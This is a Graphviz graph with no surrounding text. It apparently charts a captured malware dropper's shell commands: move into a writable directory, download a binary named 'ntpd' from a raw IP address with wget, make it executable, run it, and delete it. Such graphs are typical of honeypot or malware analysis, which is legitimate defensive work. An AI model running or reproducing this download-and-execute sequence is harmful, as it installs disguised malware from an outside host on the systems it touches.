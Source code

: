 digraph {
2 [label=" cd /tmp"];
6 [label=" cd /var/run"];
10 [label=" cd /mnt"];
14 [label=" cd /root"];
18 [label=" cd /"];
22 [label=" wget http://23.94.164.173/ntpd"];
26 [label=" chmod +x ntpd"];
31 [label=" ./ntpd"];
34 [label=" rm -rf ntpd"];
2 -> 6;
2 -> 22;
6 -> 10;
6 -> 22;
10 -> 14;
10 -> 22;
14 -> 18;
14 -> 22;
18 -> 22;
22 -> 26;
26 -> 31;
31 -> 34;
}
